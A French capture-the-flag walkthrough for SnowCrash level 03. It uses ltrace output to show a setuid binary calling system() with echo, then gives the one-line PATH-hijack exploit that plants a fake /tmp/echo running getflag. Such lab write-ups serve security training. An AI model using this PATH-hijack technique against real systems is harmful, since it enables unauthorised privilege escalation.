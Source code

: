 ## Level 03:

On arrive directement sur un folder avec un executable `level03`

avec [`ltrace`](https://man7.org/linux/man-pages/man1/ltrace.1.html) on peut voir cette ligne : 

```bash
level03@SnowCrash:~$ ltrace level03
Can't execute `level03': No such file or directory
PTRACE_SETOPTIONS: No such process
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                   = 2003
geteuid()                                                   = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)         = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)         = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                      = 0
+++ exited (status 0) +++
```

Cela nous indique un appel systeme d'echo.
On va donc faire un echo exploit en creant un fichier `echo` dans lequel on va mettre le path de getflag.  
Avec `export` on va rajouter le chemin d'`echo` a PATH (au debut) et relancer le binaire. 

```bash
level03@SnowCrash:~$ echo "/bin/getflag" > /tmp/echo && chmod 755 /tmp/echo && export PATH=/tmp/:$PATH && ./level03
```
Puis ```./level03 ```     


